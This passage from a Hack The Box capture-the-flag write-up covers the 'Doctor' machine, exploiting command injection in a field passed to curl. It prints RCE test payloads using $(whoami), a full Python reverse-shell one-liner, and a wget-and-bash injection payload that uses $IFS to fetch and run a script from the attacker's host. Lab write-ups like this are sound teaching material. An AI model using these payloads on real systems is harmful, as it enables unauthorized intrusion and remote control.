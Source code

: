 On sending a simple web server link inside the content field we do see the hit again our python server, apparently there is no input validation and the content are directly parsed via Curl:

![cmdi1](/assets/img/Posts/Doctor/cmdi1.png)

```shell
cfx:  ~/Documents/htb/doctor
→ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.209 - - [14/Nov/2020 19:53:22] code 404, message File not found
10.10.10.209 - - [14/Nov/2020 19:53:22] "GET /cfx HTTP/1.1" 404 -
```

#### RCE test

Next, We'll craft our payload as `http://10.10.14.27/$(whoami)` and submit the post again, instantly we see username as web:

```shell
10.10.10.209 - - [14/Nov/2020 19:56:50] "GET /web HTTP/1.1" 404 -
```

Changing the payload to `http://10.10.14.27/$(hostname)` resulted in giving the hostname as doctor:

```shell
10.10.10.209 - - [14/Feb/2021 19:58:04] "GET /doctor HTTP/1.1" 404 -
```

#### Reverse Shell - Web

Now that we have a working RCE, our next goal should be to get a reverse shell.

Although there are certain limitations to this method as sending complex reverse shell payloads was breaking the request as the payload didn't like space so we have to use `$IFS` (Internal field separator) and we have to combine arguments with `'`

So instead of writing complex payloads, I decided to host a python3 reverse shell payload on the python server and call the reverse shell payload using wget and next run the script using bash:

- Reverse shell payload:

```shell
cfx:  ~/Documents/htb/doctor
→ cat rev.bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.27",8021));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

- Payload for Command Injection:

```shell
http://10.10.14.27/$(wget$IFS'http://10.10.14.27/rev.bash'$IFS;$IFS'bash'$IFS'rev.bash')
```
This payload will fetch our python reverse shell file `rev.bash` and separated by `;` next command will execute dropping a reverse shell.

![rce](/assets/img/Posts/Doctor/rce.png)
